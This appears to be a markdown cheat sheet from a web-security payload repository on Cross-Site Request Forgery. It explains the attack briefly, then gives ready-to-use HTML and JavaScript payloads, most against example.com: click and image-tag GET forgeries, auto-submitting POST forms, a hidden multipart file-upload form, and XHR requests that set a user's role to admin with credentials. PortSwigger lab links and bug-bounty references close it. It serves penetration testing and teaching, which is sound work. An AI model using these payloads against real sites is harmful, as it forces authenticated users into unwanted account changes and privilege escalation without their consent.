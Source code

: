 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data With File Upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Labs](#labs)
* [References](#references)


## Tools

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.


## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/khulnasoft/Resources/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.


### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```


### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```


### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```


### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### HTML POST - multipart/form-data With File Upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```


## Labs

* [PortSwigger - CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP - Apr 19, 2024](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton - July 26, 2015](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial - 19 July 2016](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - Vijay Kumar (indoappsec) - November 21, 2015](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd - October 16, 2015](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How I Hacked Your Beats Account? Apple Bug Bounty - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - July 2, 2017](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration - Josip Franjkovic - January 15th, 2018](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross Site Request Forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction - 5 Apr. 2019](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass Referer Check Logic for CSRF - hahwul - Oct 11, 2019](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)